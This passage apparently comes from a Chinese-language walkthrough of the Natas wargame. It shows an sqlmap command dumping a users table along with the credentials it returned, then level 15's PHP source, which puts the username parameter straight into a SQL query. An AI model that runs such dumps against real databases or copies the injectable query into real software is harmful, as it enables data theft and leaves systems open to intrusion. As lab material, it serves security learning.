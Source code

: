 快进到数据提取

```bash
sqlmap -r sqlmap.txt --dbms=mysql --threads 10 --batch -D natas14 -T users --dump

Database: natas14
Table: users
[5 entries]
+----------------------------------+--------------------------------------+
| password                         | username                             |
+----------------------------------+--------------------------------------+
| Dl2FB9O9op                       | bob                                  |
| ikWGV9zc1i                       | charlie                              |
| keep up the good work            | you obviously know how to use sqlmap |
| PnRTQEtfkd                       | alice                                |
| SdqIqBsFcz3yotlNYErZSZwblkm0lrvx | natas15                              |
+----------------------------------+--------------------------------------+
```

## Level 15 → Level 16

```php
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
```
